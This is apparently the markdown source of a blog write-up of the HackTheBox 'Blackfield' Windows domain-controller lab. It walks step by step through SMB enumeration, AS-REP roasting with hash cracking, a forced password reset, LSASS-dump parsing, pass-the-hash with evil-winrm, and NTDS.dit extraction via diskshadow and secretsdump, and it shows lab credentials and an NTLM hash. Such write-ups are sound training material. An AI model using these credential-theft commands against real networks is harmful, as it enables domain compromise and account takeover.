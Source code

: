 ```yaml
---
layout: post
title: "Blackfield"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [htb, writeup, security, ad, windows]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


```bash
sudo nmap -sC -sV -p- 10.10.10.192 -oN blackfield -T4
``` 
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528212507.png)
 looks like a DC  , so let's try to enumerate 

 I tried rpcclient null session , and ldap null session , and tried to look for shares. 
the weird things here is smbclient did show a list of shares , while nxc (using -u ''-p'' )shows that we don't have permission to enumerate the shares .

when dealing with smb shares the best way to enumerate is smbmap

```bash
smbmap -H 10.10.10.192 -u null
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528215120.png)

we can read `profiles$`
seems like list of users , let's create a wordlists with this users and try asreproasting 
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528215355.png)

```bash
impacket-GetNPUsers Blackfield.local/  -usersfile users.txt	
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528215859.png)

let's crack it 
```bash
hashcat -a 0 -m 18200 asreperoasting /usr/share/wordlists/rockyou.txt 
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528220522.png)

we got support password , let's run bloodhound 
```bash
nxc ldap 10.10.10.192 -u 'support' -p '#00^BlackKnight' -c all --bloodhound -ns 10.10.10.192
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528220830.png)

after uploading it to bloodhound we can see that our user has `forcechangepassword` over `audit2020`

```bash
net rpc password "AUDIT2020" "d0s3nt123@" -U "BLACKFIELD.LOCAL"/"support"%"#00^BlackKnight" -S "DC01.BLACKFIELD.LOCAL"
```
```bash
nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@'  
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528221919.png)

let's enumerate shares using this new credentials 
```bash
nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@' --shares
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528222207.png)

if we spider this share 

```bash
nxc smb 10.10.10.192 -u 'AUDIT2020' -p 'd0s3nt123@' --share forencsic -M spider_plus
```
very juicy
![/home/user/myblog/_site](/assets/img/posts/Active/Pasted image 20240528222511.png)

after getting the zip and unzip the files , we can use `pypkatz` to read the contend of the DUMP 
```bash
pypykatz lsa minidump  lsass.DMP
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528222912.png)
we found couples of hashes but the only one that work was `svc_backup`
let's see what we can do with it , back to `bloodhound`

we can get shell using `evil-winrm`
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528222958.png)

```bash
evil-winrm -i 10.10.10.192 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d'
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528223137.png)


this user is part of backup operator group so we can use it to read any files we want on the box 
at first I tried to dump the `SAM` But the administrator hash on it didn't work
```batch
reg save HKLM\SAM sam
reg save HKLM\SYSTEM system
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528223354.png)

![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528223450.png)

we can host an smbserver and transfer it very quick 

but the SAM database will not lead us anywhere  , since the Administrator hash didn't work

so I tried to dump the `NTDS`

for that I need to used `diskshadow.exe` utility
we can use the following script with the diskshadows.exe (I took it  from [hackthebox academy](https://academy.hackthebox.com/module/67/section/601) )



![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528224528.png){: normal}

before send it to the machine , we need `unix2dos` so the stupid windows can read our script
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528224701.png)

![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528224753.png)

```
diskshadow.exe /s disk.txt
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528224954.png)


![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528225012.png)

we can now host an smbserver and transfer the `NTDS.dit` easily
then use `secretsdump` to read the `NTDS`
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM.SAV LOCAL
```
![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528225243.png)

![/home/user/myblog/_site](/assets/img/posts/Blackfield/Pasted image 20240528225358.png)